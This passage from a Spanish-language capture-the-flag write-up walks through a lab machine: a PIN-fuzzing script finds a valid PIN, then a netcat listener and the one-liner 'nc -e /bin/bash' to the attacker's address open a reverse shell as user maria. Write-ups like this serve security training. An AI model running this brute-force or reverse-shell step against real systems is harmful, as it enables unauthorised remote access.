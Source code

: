 ```python
if __name__ == "__main__":
    fuzz_pin()
```
```terminal
/home/kali/Documents/thl/offensive:-$ python3 fuzz_pin.py
[+] Posible PIN encontrado: ****
```

El PIN obtenido es válido, lo que me permite pasar el panel.

---

Continuo analizando el entorno y descubro que el servicio parece contar con una herramienta que permite ejecutar comandos con privilegios del usuario `maria`.

![](assets/img/thl-writeup-offensive/offensive4_1.png)

```terminal
/home/kali/Documents/thl/offensive:-$ nc -lnvp 4322
	listening on [any] 4322 ...
```

Puedo establecer una conexión hacia mi máquina usando netcat mediante el comando:
* `nc -e /bin/bash 192.168.0.171 4322`.
